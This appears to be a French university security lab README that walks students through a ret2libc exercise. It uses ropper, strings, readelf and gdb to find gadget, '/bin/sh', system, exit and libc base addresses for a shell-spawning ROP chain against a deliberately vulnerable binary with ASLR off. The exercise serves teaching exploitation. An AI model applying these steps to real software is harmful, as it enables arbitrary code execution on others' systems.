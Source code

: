 # Objectifs: trouver les adresses des varibles:
libc_base_address
ret
pop_rdi
binsh_addr
system_addr
exit_addr

## Installer ropper : 

Ropper est principalement écrit en Python. 

Il s'agit d'un outil open-source pour l'analyse de fichiers binaires et la recherche de gadgets ROP (Return-Oriented Programming), développé par Alexander Margaritov

sudo apt update ; sudo apt install ropper

lancer ropper: ropper (Entrée)

## pop_rdi (000000000002a3e5):

![poprdi gadget](https://raw.githubusercontent.com/adell2024/intro_securite_info/master/02-ret2libc/images/poprdi.png)


## binsh_addr (1d8678):

❯ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

 1d8678 /bin/sh

## system_addr (0000000000050d70):

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system

  1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

## exit_addr (00000000000455f0):

❯ readelf -s  /usr/lib/x86_64-linux-gnu/libc.so.6 | grep exit

2760: 00000000000455f0    32 FUNC    GLOBAL DEFAULT   15 exit@@GLIBC_2.2.5

les décalages (offsets) que nous avons découverts ci-dessus seront ajoutés à l'adresse où la libc sera chargée. Puisque l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.

## libc_base_address (0x00007ffff7c00000):

gdb ./ret2libc -q

gdb-peda$ start

gdb-peda$ vmmap

Start              End                Perm	Name

0x00400000         0x00401000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00401000         0x00402000         r-xp	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00402000         0x00403000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00403000         0x00404000         r--p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00404000         0x00405000         rw-p	/home/insa/intro_securite_info/02-ret2libc/ret2libc

0x00007ffff7c00000 0x00007ffff7c28000 r--p	/usr/lib/x86_64-linux-gnu/libc.so.6 


##exploit1.py

>> Modifiez le script pour utiliser les valeurs correspondant à votre environnement pour les variables mentionnées précédemment.

>> Exécutez votre exploit et observez son échec dû à une violation de segmentation (signal SIGSEGV).

>> Lancez une session GDB, chargez le payload payload1 et exécutez-le pas à pas. Vérifiez que toutes les adresses sont correctement définies, mais constatez que l'exécution complète se termine par une violation de segmentation (segfault).Identifiez la fonction qui génère cette faute.
